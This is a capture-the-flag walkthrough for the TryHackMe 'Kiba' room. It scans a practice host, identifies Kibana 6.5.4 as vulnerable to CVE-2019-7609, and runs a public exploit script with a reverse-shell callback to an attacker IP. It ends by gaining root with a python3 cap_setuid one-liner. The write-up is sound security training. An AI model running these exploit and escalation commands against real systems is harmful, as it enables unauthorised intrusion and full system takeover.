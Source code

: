 ```yaml
---

title: Walkthrough - Kiba
published: true
---
```


RCE, Elastic, Python, Linux Capabilities, Kibana. Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

[https://tryhackme.com/room/kiba](https://tryhackme.com/room/kiba)

* * * 

## What is the vulnerability that is specific to programming languages with prototype-based inheritance?

- [Prototype Pollution](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

* * * 

## What is the version of visualization dashboard installed in the server?

- ``nmap -p- -T4 10.10.71.45 -vvv``

```
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack
80/tcp   open  http        syn-ack
5044/tcp open  lxi-evntsvc syn-ack
5601/tcp open  esmagent    syn-ack
```

- ``sudo nmap -sV -sT -sC -p22,80,5044,5601 10.10.71.45``

```
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 03 Aug 2022 14:29:32 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 03 Aug 2022 14:29:27 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 03 Aug 2022 14:29:28 GMT
|_    {"statusCode":404,"error":"Not Found"}
```

- kibana app located at ``http://10.10.71.45:5601/app/kibana``
- checking and Ctrl+F "Version" we find 6.5.4 in the source code.

* * * 

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

- Googling the Kibana version lead me to it and a script for execution https://github.com/LandGrey/CVE-2019-7609``

* * * 

## Compromise the machine and locate user.txt

- Found a script that executes payload ``python2 CVE-2019-7609-kibana-rce.py -u http://10.10.157.84:5601/ -host 10.2.127.225 -port 6666 --shell``

* * * 

## Capabilities is a concept that provides a security system that allows "divide" root privileges into different values - How would you recursively list all of these capabilities?

```
kiba@ubuntu:/home/kiba/.hackmeplease$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

* * * 

## Escalate privileges and obtain root.txt

- this python3 binary has ``CAP_SETUID`` set ``/home/kiba/.hackmeplease/python3 = cap_setuid+ep``
- escalate privilege to root ``./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'``

* * * 

